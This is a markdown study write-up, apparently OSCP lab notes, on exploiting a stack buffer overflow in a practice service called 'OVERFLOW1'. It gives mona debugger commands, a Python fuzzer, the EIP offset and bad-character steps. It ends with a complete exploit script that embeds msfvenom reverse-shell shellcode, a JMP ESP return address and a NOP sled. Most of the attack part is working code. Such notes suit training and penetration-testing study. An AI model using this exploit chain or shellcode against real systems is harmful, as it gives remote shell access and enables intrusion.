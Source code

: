 # BufferOverflow

## Immunity Debugger

set working folder

```
!mona config -set workingfolder c:\mona\%p
```

generate chars

```
!mona bytearray -b "\x00"
```

get badchars

```
!mona compare -f c:\mona\oscp\bytearray.bin -a address
```





## Fuzzing

```python
import socket, time, sys

ip = "10.10.3.229"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```



### access violation

![image-20200812155654965](BufferOverflow.assets/image-20200812155654965.png)



![image-20200812155902427](BufferOverflow.assets/image-20200812155902427.png)



## Find EIP

code to connect to the server and send buffer

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```



### creating pattern

we will send this pattern as buffer and note the value of EIP.

![image-20200812160322298](BufferOverflow.assets/image-20200812160322298.png)



copy the value present in EIP

0X6F43396E

![image-20200812160759110](BufferOverflow.assets/image-20200812160759110.png)



feed the value to pattern-offset module in metasploit

![image-20200812160929845](BufferOverflow.assets/image-20200812160929845.png)

got exact match **1978**



## Overwrite EIP

![image-20200812161547753](BufferOverflow.assets/image-20200812161547753.png)



we overwrote the EIP with 42424242 ("B" * 4)

![image-20200812161248525](BufferOverflow.assets/image-20200812161248525.png)



## FIND badchars

```
!mona bytearray -b "\x00"
```

code to print badchars

```python3
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')
```



compare for file of bytearray with memory address of ESP where we dumped the bytearray and gives badchars

```
!mona compare -f c:\mona\oscp\bytearray.bin -a address
```



![image-20200812162308640](BufferOverflow.assets/image-20200812162308640.png)

1. we will find badchars by comparing it with byte array
2. each badchar need to removed badchars need to compared again because they affect other hex codes as well

```
badchars		\x00\x07\x2e\xa0
```



## Find return address

```
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

![image-20200812164420253](BufferOverflow.assets/image-20200812164420253.png)

- found a series of return address
- try them from return from top to bottom

  return address		0x625011AF



## exploit

### msfvenom

We will create a msfvenom payload with simple reverse shell with return address we got

- reverse shell code

![image-20200812165352273](BufferOverflow.assets/image-20200812165352273.png)



- exploit with reverse shell and return address

![image-20200812165718409](BufferOverflow.assets/image-20200812165718409.png)



### shell

![image-20200812165616285](BufferOverflow.assets/image-20200812165616285.png)



## final exploit

```python
#!/usr/bin/env python

import socket

ip = "10.10.3.229"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"                                   # badhchars \x00\x07\x2e\xa0
padding = "\x90" * 30
payload = ("\xdb\xd4\xb8\x3c\x8c\xb0\xc2\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
        "\x52\x31\x43\x17\x83\xc3\x04\x03\x7f\x9f\x52\x37\x83\x77\x10"
        "\xb8\x7b\x88\x75\x30\x9e\xb9\xb5\x26\xeb\xea\x05\x2c\xb9\x06"
        "\xed\x60\x29\x9c\x83\xac\x5e\x15\x29\x8b\x51\xa6\x02\xef\xf0"
        "\x24\x59\x3c\xd2\x15\x92\x31\x13\x51\xcf\xb8\x41\x0a\x9b\x6f"
        "\x75\x3f\xd1\xb3\xfe\x73\xf7\xb3\xe3\xc4\xf6\x92\xb2\x5f\xa1"
        "\x34\x35\xb3\xd9\x7c\x2d\xd0\xe4\x37\xc6\x22\x92\xc9\x0e\x7b"
        "\x5b\x65\x6f\xb3\xae\x77\xa8\x74\x51\x02\xc0\x86\xec\x15\x17"
        "\xf4\x2a\x93\x83\x5e\xb8\x03\x6f\x5e\x6d\xd5\xe4\x6c\xda\x91"
        "\xa2\x70\xdd\x76\xd9\x8d\x56\x79\x0d\x04\x2c\x5e\x89\x4c\xf6"
        "\xff\x88\x28\x59\xff\xca\x92\x06\xa5\x81\x3f\x52\xd4\xc8\x57"
        "\x97\xd5\xf2\xa7\xbf\x6e\x81\x95\x60\xc5\x0d\x96\xe9\xc3\xca"
        "\xd9\xc3\xb4\x44\x24\xec\xc4\x4d\xe3\xb8\x94\xe5\xc2\xc0\x7e"
        "\xf5\xeb\x14\xd0\xa5\x43\xc7\x91\x15\x24\xb7\x79\x7f\xab\xe8"
        "\x9a\x80\x61\x81\x31\x7b\xe2\xa4\xce\x8d\xc4\xd0\xd2\x91\x3d"
        "\x92\x5a\x77\x57\xc4\x0a\x20\xc0\x7d\x17\xba\x71\x81\x8d\xc7"
        "\xb2\x09\x22\x38\x7c\xfa\x4f\x2a\xe9\x0a\x1a\x10\xbc\x15\xb0"
        "\x3c\x22\x87\x5f\xbc\x2d\xb4\xf7\xeb\x7a\x0a\x0e\x79\x97\x35"
        "\xb8\x9f\x6a\xa3\x83\x1b\xb1\x10\x0d\xa2\x34\x2c\x29\xb4\x80"
        "\xad\x75\xe0\x5c\xf8\x23\x5e\x1b\x52\x82\x08\xf5\x09\x4c\xdc"
        "\x80\x61\x4f\x9a\x8c\xaf\x39\x42\x3c\x06\x7c\x7d\xf1\xce\x88"
        "\x06\xef\x6e\x76\xdd\xab\x9f\x3d\x7f\x9d\x37\x98\xea\x9f\x55"
        "\x1b\xc1\xdc\x63\x98\xe3\x9c\x97\x80\x86\x99\xdc\x06\x7b\xd0"
        "\x4d\xe3\x7b\x47\x6d\x26")
postfix = ""


buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

